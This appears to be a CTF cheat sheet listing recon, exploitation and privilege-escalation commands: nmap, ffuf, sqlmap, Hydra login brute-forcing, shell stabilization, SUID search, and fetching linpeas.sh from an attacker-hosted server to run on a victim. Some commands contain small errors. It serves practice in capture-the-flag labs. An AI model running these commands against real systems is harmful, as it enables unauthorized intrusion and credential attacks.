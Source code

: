 # CTF-cheatsheet
## RECON
### NMAP
`sudo nmap -sV -sT -A -p- IP`
### FFUF
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac` no extensions \
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.js,.html,.txt -ac` with extensions 
#### Other extensions that could be used: .cfg, .bak, .json, etc.
### Dirsearch
``
### Sqlmap
`sqlmap -u http://IP --forms`
#### Depending on the situation, `--level=` and `--risk=` can be used
## EXPLOIT
* ExploitDB
* GitHub
* Metasploit
### Hydra
`hydra -L useranme.txt -P passwords.txt IP/DOMAIN_NAME http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid creds or something"`
>Login form brute-forcing

## PRIVESC
#### Shell stabilization
```
python3 -c 'import pty; pty.spawn("/bin/bash");'
export TERM=xterm
```
#### Background session
```
stty -raw echo
fg
```
#### Foreground back to victim

### Find SUID binaries
`find / -perm -u=s -type f 2>/dev/null`
### Get and run linpeas.sh
#### On attacker machine:
```
python3 -m http.server 9000
````
#### On victim
```
cd /tmp
wget -u http://IP:9000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
#### Curl can also be used, or whatever method to get linpeas.sh on victim's machine
